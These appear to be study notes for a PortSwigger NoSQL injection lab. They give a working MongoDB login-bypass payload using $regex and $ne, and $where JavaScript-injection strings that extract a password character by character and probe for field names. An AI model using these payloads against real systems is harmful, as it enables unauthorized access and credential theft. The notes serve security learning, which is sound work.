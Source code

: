 **LAB** - login as admin by exploiting NoSQL injection.
https://portswigger.net/web-security/learning-paths/nosql-injection/nosql-operator-injection/nosql-injection/lab-nosql-injection-bypass-authentication

**Solution** - `{"username":{"$regex":"admin*"},"password":{"$ne":"invalid"}}`
Even though my payload worked, proper regex that I meant is `admin.*` which will match anything starting with admin and ending with  anything.


#### Exploiting syntax injection to exfil data

Some query operators can run limited JS.
For example `$where` from MongoDB, and `mapReduce()` function.

This means that there is a possibility the database may evaluate JS as a query, so in theory you can use JS functions to exfil data.

Consider an app that allows you to check other registered users roles, that functionality sends this request.
`https://insecure-website.com/user/lookup?username=admin`

It results in this NoSQL query.
```js
{"$where":"this.username == 'admin'"}
```

Because this query uses `$where` operator, we can attempt JS function injection.
```js
admin' && this.password[0] == 'a' || 'a'=='b
```

This can help you exfil the password character by character, using the conditional statement.
The part `|| 'a'=='b` serves as logical fail in case of incorrect guess.

If the query fails we know that the letter is not correct at that index.
Else we got a correct letter to index guess.

It can help to identify numbers in the password using JS `match()` regex.
```js
admin' && this.password.match(/\d/) || 'a'=='b
```

#### Identifying field names

In our case using MongoDB, it uses semi-structured data without a required schema.
So before you can exfil data with JS injection, we need to identify these fields.

You would expect that fields that we know exist to return normal response compared to non existing field.
For example identifying the `password` field.
```js
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

So now we test for a non existing field and filed we know exists (username).
```js
admin' && this.username!='
admin' && this.foo!=' // does not exist
```
